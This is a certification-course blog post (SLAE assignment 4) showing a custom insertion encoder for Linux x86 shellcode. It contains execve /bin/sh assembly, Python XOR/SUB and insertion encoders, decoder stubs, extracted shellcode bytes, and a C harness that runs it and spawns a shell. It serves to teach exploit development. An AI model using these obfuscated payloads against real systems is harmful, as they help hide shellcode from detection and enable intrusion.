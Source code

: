 # Assignment #4: Insertion Encoder

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Create a custom encoding scheme like the "Insertion Encoder" we showed you
- PoC with using execve-stack as the shellcode to encode with your schema and execute


### Solution

The custom scheme is compose by a execve-stack (/bin/sh) encoded with XOR and SUB, after I added the "Insertion Encoder" using insertion that consists in an incremental counter.

So, the *insertion decoder stub* must decode it using the counter.

First, I take a execve shellcode using the stack and encode it.

execve-stack (/bin/sh) without encoding:
```nasm
global _start			

section .text
_start:
	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80

```

I encoded the execve-stack shellcode using XOR and SUB operators to encode the shellcode. 

#### Encoder execve-stack shellcode

```python
#!/usr/bin/python

shellcode = ("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

for x in bytearray(shellcode) :
        y = x + 0x2
        c = y ^ 0xCA
        encoded += '\\x'
        encoded += '%02x' % c
        encoded2 += '0x'
        encoded2 += '%02x,' %c
        
print encoded
print encoded2
print 'Len: %d' % len(bytearray(shellcode))

```

I created the nasm program to decode it and generate the new shellcode:

#### Decoder execve-stack encoded shellcode

```nasm
global _start			

section .text
_start:

	jmp short call_decoder

decoder:
	pop esi
	xor ecx, ecx
	mov cl,25
decode:
	xor byte[esi], 0xca
	sub byte[esi], 0x2
	inc esi
	loop decode
	jmp short Shellcode

call_decoder:
	call decoder
	Shellcode: db 0xf9,0x08,0x98,0xa0,0xba,0xfb,0xbf,0xa0,0xa0,0xfb,0xfb,0xae,0xa1,0x41,0x2f,0x98,0x41,0x2e,0x9f,0x41,0x29,0x78,0xc7,0x05,0x48
```

Getting the new shellcode:
```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ ./compile.sh xor-sub-execve-stack
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ objdump -d ./xor-sub-execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x10\x5e\x31\xc9\xb1\x19\x80\x36\xca\x80\x2e\x02\x46\xe2\xf7\xeb\x05\xe8\xeb\xff\xff\xff\xf9\x08\x98\xa0\xba\xfb\xbf\xa0\xa0\xfb\xfb\xae\xa1\x41\x2f\x98\x41\x2e\x9f\x41\x29\x78\xc7\x05\x48"

```

Check if the shellcode works well...


Finally, I added the *custom encoded schema*.


####Insertion encoder stub

```python
#!/usr/bin/python

encoded = ""
encoded2 = ""

shellcode = ("\xeb\x10\x5e\x31\xc9\xb1\x19\x80\x36\xca\x80\x2e\x02\x46\xe2\xf7\xeb\x05\xe8\xeb\xff\xff\xff\xf9\x08\x98\xa0\xba\xfb\xbf\xa0\xa0\xfb\xfb\xae\xa1\x41\x2f\x98\x41\x2e\x9f\x41\x29\x78\xc7\x05\x48")

print 'Encoded shellcode ...'

counter = 1
for x in bytearray(shellcode) :
        encoded += '\\x'
        encoded += '%02x' % x
        encoded += '\\x%02x' % counter

        encoded2 += '0x'
        encoded2 += '%02x,' %x
        encoded2 += '0x%02x,' % counter
        counter += 1


print encoded
print encoded2

print 'Len: %d' % len(bytearray(shellcode))

```

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ ./Insertion-Encoder.py 
Encoded shellcode ...
\xeb\x01\x10\x02\x5e\x03\x31\x04\xc9\x05\xb1\x06\x19\x07\x80\x08\x36\x09\xca\x0a\x80\x0b\x2e\x0c\x02\x0d\x46\x0e\xe2\x0f\xf7\x10\xeb\x11\x05\x12\xe8\x13\xeb\x14\xff\x15\xff\x16\xff\x17\xf9\x18\x08\x19\x98\x1a\xa0\x1b\xba\x1c\xfb\x1d\xbf\x1e\xa0\x1f\xa0\x20\xfb\x21\xfb\x22\xae\x23\xa1\x24\x41\x25\x2f\x26\x98\x27\x41\x28\x2e\x29\x9f\x2a\x41\x2b\x29\x2c\x78\x2d\xc7\x2e\x05\x2f\x48\x30
0xeb,0x01,0x10,0x02,0x5e,0x03,0x31,0x04,0xc9,0x05,0xb1,0x06,0x19,0x07,0x80,0x08,0x36,0x09,0xca,0x0a,0x80,0x0b,0x2e,0x0c,0x02,0x0d,0x46,0x0e,0xe2,0x0f,0xf7,0x10,0xeb,0x11,0x05,0x12,0xe8,0x13,0xeb,0x14,0xff,0x15,0xff,0x16,0xff,0x17,0xf9,0x18,0x08,0x19,0x98,0x1a,0xa0,0x1b,0xba,0x1c,0xfb,0x1d,0xbf,0x1e,0xa0,0x1f,0xa0,0x20,0xfb,0x21,0xfb,0x22,0xae,0x23,0xa1,0x24,0x41,0x25,0x2f,0x26,0x98,0x27,0x41,0x28,0x2e,0x29,0x9f,0x2a,0x41,0x2b,0x29,0x2c,0x78,0x2d,0xc7,0x2e,0x05,0x2f,0x48,0x30,
Len: 48

```


####Insertion decoder stub:


```nasm
global _start			

section .text
_start:

	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi +1]
	xor eax, eax
	mov al, 1
	xor ebx, ebx
	xor ecx, ecx
	mov cl, 1			;counter

decode: 
	mov bl, byte [esi + eax]
	xor bl, cl
	jnz short EncodedShellcode
	mov bl, byte [esi + eax + 1]
	mov byte [edi], bl
	inc edi
	add al, 2
	add cl, 1
	jmp short decode	



call_shellcode:

	call decoder
	EncodedShellcode: db 0xeb,0x01,0x10,0x02,0x5e,0x03,0x31,0x04,0xc9,0x05,0xb1,0x06,0x19,0x07,0x80,0x08,0x36,0x09,0xca,0x0a,0x80,0x0b,0x2e,0x0c,0x02,0x0d,0x46,0x0e,0xe2,0x0f,0xf7,0x10,0xeb,0x11,0x05,0x12,0xe8,0x13,0xeb,0x14,0xff,0x15,0xff,0x16,0xff,0x17,0xf9,0x18,0x08,0x19,0x98,0x1a,0xa0,0x1b,0xba,0x1c,0xfb,0x1d,0xbf,0x1e,0xa0,0x1f,0xa0,0x20,0xfb,0x21,0xfb,0x22,0xae,0x23,0xa1,0x24,0x41,0x25,0x2f,0x26,0x98,0x27,0x41,0x28,0x2e,0x29,0x9f,0x2a,0x41,0x2b,0x29,0x2c,0x78,0x2d,0xc7,0x2e,0x05,0x2f,0x48,0x30

```

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ objdump -d ./insertion-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x23\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x31\xc9\xb1\x01\x8a\x1c\x06\x30\xcb\x75\x13\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\x80\xc1\x01\xeb\xeb\xe8\xd8\xff\xff\xff\xeb\x01\x10\x02\x5e\x03\x31\x04\xc9\x05\xb1\x06\x19\x07\x80\x08\x36\x09\xca\x0a\x80\x0b\x2e\x0c\x02\x0d\x46\x0e\xe2\x0f\xf7\x10\xeb\x11\x05\x12\xe8\x13\xeb\x14\xff\x15\xff\x16\xff\x17\xf9\x18\x08\x19\x98\x1a\xa0\x1b\xba\x1c\xfb\x1d\xbf\x1e\xa0\x1f\xa0\x20\xfb\x21\xfb\x22\xae\x23\xa1\x24\x41\x25\x2f\x26\x98\x27\x41\x28\x2e\x29\x9f\x2a\x41\x2b\x29\x2c\x78\x2d\xc7\x2e\x05\x2f\x48\x30"
```

And we check that the shellcode works well... 

#### Proof of Concept (PoC)

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ cat shellcode.c 
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\xeb\x23\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x31\xc9\xb1\x01\x8a\x1c\x06\x30\xcb\x75\x13\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\x80\xc1\x01\xeb\xeb\xe8\xd8\xff\xff\xff\xeb\x01\x10\x02\x5e\x03\x31\x04\xc9\x05\xb1\x06\x19\x07\x80\x08\x36\x09\xca\x0a\x80\x0b\x2e\x0c\x02\x0d\x46\x0e\xe2\x0f\xf7\x10\xeb\x11\x05\x12\xe8\x13\xeb\x14\xff\x15\xff\x16\xff\x17\xf9\x18\x08\x19\x98\x1a\xa0\x1b\xba\x1c\xfb\x1d\xbf\x1e\xa0\x1f\xa0\x20\xfb\x21\xfb\x22\xae\x23\xa1\x24\x41\x25\x2f\x26\x98\x27\x41\x28\x2e\x29\x9f\x2a\x41\x2b\x29\x2c\x78\x2d\xc7\x2e\x05\x2f\x48\x30";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment4$ ./shellcode 
Shellcode Length:  138
$ id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)
$ 

```
